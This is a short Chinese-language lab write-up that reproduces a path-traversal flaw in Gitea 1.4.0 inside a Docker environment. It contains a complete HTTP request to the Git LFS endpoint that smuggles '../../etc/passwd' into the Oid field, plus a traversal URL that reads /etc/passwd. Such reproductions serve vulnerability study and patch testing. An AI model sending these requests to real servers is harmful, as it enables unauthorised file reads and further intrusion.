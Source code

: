 Gitea 1.4.0 目录穿越导致命令执行漏洞
====================================

一、漏洞简介
------------

二、漏洞影响
------------

Gitea 1.4.0

三、复现过程
------------

执行如下命令启动启动漏洞环境：

    docker-compose up -d

环境启动后，访问`http://www.0-sec.org:3000`，将进入安装页面，填写管理员账号密码，并修改网站URL，其他的用默认配置安装即可。（不要修改端口号）

安装完成后，创建一个公开的仓库，随便添加点文件进去（比如使用选定的文件和模板初始化仓库）：1.png

然后，需要执行一次docker-compose restart重启gitea服务。

由于漏洞链整体利用比较复杂，我们只复现文件读取部分，剩余利用方法详见第二个参考链接。

打开gitea，找到刚才创建的公开项目，如`vulhub/repo`，发送如下数据包，添加一个Git
LFS对象：

    POST /vulhub/repo.git/info/lfs/objects HTTP/1.1
    Host: www.0-sec.org:3000
    Accept-Encoding: gzip, deflate
    Accept: application/vnd.git-lfs+json
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 151

    {
        "Oid": "....../../../etc/passwd",
        "Size": 1000000,
        "User" : "a",
        "Password" : "a",
        "Repo" : "a",
        "Authorization" : "a"
    }

然后，访问`http://www.0-sec.org:3000/vulhub/repo.git/info/lfs/objects/......%2F..%2F..%2Fetc%2Fpasswd/sth`，即可看到`/etc/passwd`已被成功读取：2.png
